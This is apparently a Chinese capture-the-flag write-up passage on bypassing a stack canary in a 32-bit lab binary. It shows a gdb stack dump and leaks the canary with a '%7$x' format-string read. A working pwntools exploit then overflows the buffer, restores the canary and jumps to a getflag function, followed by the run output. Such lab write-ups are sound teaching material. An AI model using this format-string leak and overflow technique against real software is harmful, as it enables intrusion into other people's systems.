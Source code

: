 栈的情况：
​    

```
[------------------------------------stack-------------------------------------]
0000| 0xbffff040 --> 0xbffff056 ("123456")
0004| 0xbffff044 --> 0xbffff056 ("123456")
0008| 0xbffff048 --> 0xbffff068 --> 0x0 
0012| 0xbffff04c --> 0x804874c (<main+33>:	subesp,0x8)
0016| 0xbffff050 --> 0x1 
0020| 0xbffff054 --> 0x3231f114 
0024| 0xbffff058 ("3456")
0028| 0xbffff05c --> 0x65773a00 ('')
[------------------------------------------------------------------------------]
```

因为canary保存在`ebp-0xc` = `0xbffff05c`,格式化参数format保存在`0xbffff040`，根据栈布局可以知道参数偏移为7

那么接下来只要通过格式化字符串读取canary的值，然后在栈溢出的padding块把canary所在位置的值用正确的canary替换，从而绕过canary的检测。

还有一点，fun函数的地址,直接IDA查看便是：
​    

```
.text:0804863B ; =============== S U B R O U T I N E =======================================
.text:0804863B
.text:0804863B ; Attributes: bp-based frame
.text:0804863B
.text:0804863B public getflag
.text:0804863B getflag proc near
```

下面编写exp:
​    

```
from pwn import *
context.log_level = 'debug'
cn = process('./bin')
cn.sendline('%7$x')
canary = int(cn.recv(),16)
print hex(canary)
cn.send('a'*100 + p32(canary) + 'a'*12 + p32(0x0804863b))
flag = cn.recv()
log.success('flag is:' + flag)
```

运行：

```
mask@mask-virtual-machine:~/canary$ python exp.py
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './bin': pid 5571
0xbe616300
[+] flag is:this is flag

[*] Stopped process './bin' (pid 5571)
```
